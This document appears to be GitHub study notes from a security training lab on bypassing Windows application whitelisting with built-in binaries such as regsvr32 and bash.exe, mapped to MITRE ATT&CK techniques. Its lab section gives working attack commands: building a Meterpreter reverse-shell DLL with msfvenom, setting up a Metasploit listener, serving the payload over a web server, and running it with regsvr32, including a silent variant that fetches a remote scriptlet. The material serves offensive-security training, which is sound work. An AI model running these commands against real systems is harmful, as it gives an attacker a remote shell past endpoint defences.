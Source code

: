 # Application whitelisting bypasses

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs 
from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications 
or executable files that are allowed to be present and executed on an OS. Some LOLBAS examples that are used to bypass 
the Windows application whitelisting.

## Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows 
Registry. The `regsvr.exe` binary is located at:

    C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, `regsvr32.exe` binary can also be used to execute arbitrary binaries and bypass the Windows 
Application Whitelisting. 

According to Red Canary reports, the `regsvr32.exe` binary is the third most popular ATT&CK technique. Mitre identifies 
it as "System Binary Proxy Execution: Regsvr32" ([T1218.010](https://attack.mitre.org/techniques/T1218/010/)).

## Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10, 11, and Server 2019. This feature is known 
as Windows Subsystem for Linux (WSL), and it exists in two WSL versions: WSL1 and WSL2. WSL is a Hyper-V virtualised 
Linux distribution that runs on the OS, supporting a subset of the Linux kernel and system calls. This feature is an 
addon that a user can install. As part of WSL, `bash.exe` is a Microsoft tool for interacting with the Linux 
environment.

By executing `bash.exe -c "path-to-payload"`, any unsigned payload can be executed. ATT&CK called this an 
"Indirect Command execution" technique ([T1202](https://attack.mitre.org/techniques/T1202/)).

## Lab

1. Create a malicious DLL file using msfvenom (32 bit):

```text
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll
```

2. Set up a Metasploit listener to receive a reverse shell:

```text
$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443
```

3. Deliver the payload to the target machine using a webserver to serve the DLL file on our attacking machine:

```text
$ python3 -m http.server 1337
```

On the target machine, download the DLL file, and execute it using `regsvr32.exe`:

```text
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
```

Or:

```text
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

* `/s`: in silent mode (without showing messages)
* `/n`: to not call the DLL register server
* `/i`:: to use another server since we used `/n`
* `/u`: to run with unregister method

On the attacking machine:

```text
msf6 > exploit(multi/handler) > exploit 
```

Note: For a 64-bit DLL version, specify it in the msfvenom command and run it from the victim machine using the 
64bits version of `regsvr32.exe` at `C:\Windows\SysWOW64\regsvr32.exe`.

## Resources

* [Red Canary](https://redcanary.com/)
* [Windows Subsystem for Linux (WSL)](https://docs.microsoft.com/en-us/windows/wsl/about)

